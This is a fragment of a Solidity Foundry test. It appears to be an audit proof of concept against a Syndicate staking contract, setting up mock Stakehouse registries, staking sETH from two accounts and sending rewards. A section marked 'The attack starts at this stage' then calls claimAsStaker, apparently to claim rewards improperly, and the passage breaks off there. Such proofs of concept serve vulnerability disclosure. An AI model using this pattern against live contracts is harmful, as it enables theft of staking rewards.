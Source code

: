 ```solidity
            blsPubKeyOneAsArray()
        ));
        syndicate = SyndicateMock(_syndicate);
        // Config mock stakehouse contracts
        MockSlotRegistry(syndicate.slotReg()).setShareTokenForHouse(houseOne, address(sETH));
	    MockStakeHouseUniverse(syndicate.uni()).setAssociatedHouseForKnot(blsPubKeyOne, houseOne);
	    MockStakeHouseUniverse(syndicate.uni()).setAssociatedHouseForKnot(blsPubKeyTwo, houseOne);
 	    MockStakeHouseUniverse(syndicate.uni()).setAssociatedHouseForKnot(blsPubKeyThree, houseOne);
 	    MockSlotRegistry(syndicate.slotReg()).setNumberOfCollateralisedSlotOwnersForKnot(blsPubKeyOne, 1);
        MockSlotRegistry(syndicate.slotReg()).setNumberOfCollateralisedSlotOwnersForKnot(blsPubKeyTwo, 1);
        MockSlotRegistry(syndicate.slotReg()).setNumberOfCollateralisedSlotOwnersForKnot(blsPubKeyThree, 1);
        MockSlotRegistry(syndicate.slotReg()).setCollateralisedOwnerAtIndex(blsPubKeyOne, 0, accountTwo);
        MockSlotRegistry(syndicate.slotReg()).setCollateralisedOwnerAtIndex(blsPubKeyTwo, 0, accountFour);
        MockSlotRegistry(syndicate.slotReg()).setCollateralisedOwnerAtIndex(blsPubKeyThree, 0, accountFive);
        MockSlotRegistry(syndicate.slotReg()).setUserCollateralisedSLOTBalanceForKnot(houseOne, accountTwo, blsPubKeyOne, 4 ether);
        MockSlotRegistry(syndicate.slotReg()).setUserCollateralisedSLOTBalanceForKnot(houseOne, accountFour, blsPubKeyTwo, 4 ether);
        MockSlotRegistry(syndicate.slotReg()).setUserCollateralisedSLOTBalanceForKnot(houseOne, accountFive, blsPubKeyThree, 4 ether);
    }
    function testUnexpectedClaimAsStaker() public {
        // Set up test - distribute sETH and register additional knot to syndicate
        vm.startPrank(admin);
        syndicate.registerKnotsToSyndicate(getBytesArrayFromBytes(blsPubKeyTwo));
        vm.stopPrank();

        vm.startPrank(accountOne);
        sETH.transfer(accountThree, 500 ether);
        sETH.transfer(accountFive, 500 ether);
        vm.stopPrank();

        // for bls pub key one we will have 2 stakers staking 50% each
        uint256 stakingAmount = 4 ether;
        uint256[] memory sETHAmounts = new uint256[](1);
        sETHAmounts[0] = stakingAmount;

        vm.startPrank(accountOne);
        sETH.approve(address(syndicate), stakingAmount);
        syndicate.stake(blsPubKeyOneAsArray(), sETHAmounts, accountOne);
        vm.stopPrank();

        vm.startPrank(accountThree);
        sETH.approve(address(syndicate), stakingAmount);
        syndicate.stake(blsPubKeyOneAsArray(), sETHAmounts, accountThree);
        vm.stopPrank();

        // send some rewards
        uint256 eipRewards = 1 ether;
        sendEIP1559RewardsToSyndicate(eipRewards);

        // The attack starts at this stage
        vm.startPrank(accountThree);

        assertEq(accountThree.balance, 0);
        syndicate.claimAsStaker(accountThree, getBytesArrayFromBytes(blsPubKeyOne));
```